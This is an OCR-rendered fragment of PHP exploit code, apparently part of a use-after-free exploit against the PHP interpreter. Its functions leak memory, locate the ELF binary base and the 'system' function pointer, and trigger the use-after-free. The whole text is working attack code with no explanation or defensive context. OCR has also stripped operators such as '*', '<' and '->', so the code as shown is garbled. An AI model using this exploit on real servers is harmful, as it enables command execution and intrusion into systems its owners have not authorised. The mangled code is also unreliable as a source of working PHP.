             $leak = leak($data_addr, ($i + 4)  8);
            if($leak - $base  0 && $leak - $base  $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
    
            return $data_addr + $i  8;
        }
    }
    
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i  0x1000; $i++) {
            $addr = $start - 0x1000  $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
    
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
    
            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
    function my_str_repeat($a,$b){
        $s = '';
        for($i = 0; $i = $b;$i++){
            $s.=$a;
        }  
        return $s;
    }
    
    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle(my_str_repeat('A', 79));
        $vuln = new Vuln();
        $vuln-a = $arg;
    }
    
